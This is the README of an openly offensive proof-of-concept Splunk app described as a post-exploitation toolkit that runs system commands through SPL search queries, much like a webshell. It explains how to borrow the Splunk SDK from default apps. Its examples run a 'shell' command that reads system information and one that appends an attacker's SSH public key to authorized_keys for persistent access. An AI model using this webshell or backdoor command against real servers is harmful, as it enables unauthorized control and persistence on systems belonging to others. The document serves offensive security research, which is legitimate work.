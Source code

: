 # Post-Exploitation Toolkit for Splunk

This is a proof-of-concept app for executing system commands through Splunk Enterprise's SPL engine—similar to a webshell.

- No opsec
- No code obfuscation
- No exporting of Splunk objects outside of the scope of the app
- No living off the land

The app uses the _bring your own SDK_ (BYOS) concept for convenience, but it is possible to live off the land by "vampirizing" the SDK from another app that uses it by tweaking Python's path through `sys.path`—for example, these are some default Splunk apps that use the [Splunk SDK for Python](https://github.com/splunk/splunk-sdk-python):

- Splunk Instrumentation : `$SPLUNK_HOME/etc/apps/splunk_instrumentation/bin/splunk_instrumentation`
- Splunk Secure Gateway : `$SPLUNK_HOME/etc/apps/splunk_secure_gateway/lib`
- Splunk Rapid Diagnostic : `$SPLUNK_HOME/etc/apps/splunk_rapid_diag/bin`

It is even possible to get rid of the SDK completely by taking advantage of the fact that Python arbitrarily evaluates any code that is in the command file (i.e. the `shell.py` file).

> Be aware that a Splunk administrator account is needed for installing the app in the first place.

## Examples

Below are some examples of using the `shell` search command exposed by this app:

```spl
| shell command="cat /proc/version"
| eval duration=strftime(duration, "%H:%M:%S.%s")
| table command, code, stderr, stdout, duration
```

```
| shell command="mkdir -p ~/.ssh && echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDNqqi1mHLnryb1FdbePrSZQdmXRZxGZbo0gTfglysq6KMNUNY2VhzmYN9JYW39yNtjhVxqfW6ewc+eHiL+IRRM1P5ecDAaL3V0ou6ecSurU+t9DR4114mzNJ5SqNxMgiJzbXdhR+j55GjfXdk0FyzxM3a5qpVcGZEXiAzGzhHytUV51+YGnuLGaZ37nebh3UlYC+KJev4MYIVww0tWmY+9GniRSQlgLLUQZ+FcBUjaqhwqVqsHe4F/woW1IHe7mfm63GXyBavVc+llrEzRbMO111MogZUcoWDI9w7UIm8ZOTnhJsk7jhJzG2GpSXZHmly/a/buFaaFnmfZ4MYPkgJD sk4la@box.gmail.com' >> ~/.ssh/authorized_keys"
| eval duration=strftime(duration, "%H:%M:%S.%s")
| table command, code, stderr, stdout, duration
```

> Since the `shell` searchcommand is a [generating command](https://docs.splunk.com/Documentation/Splunk/latest/SearchReference/Commandsbytype), it must be the first command in the search query.
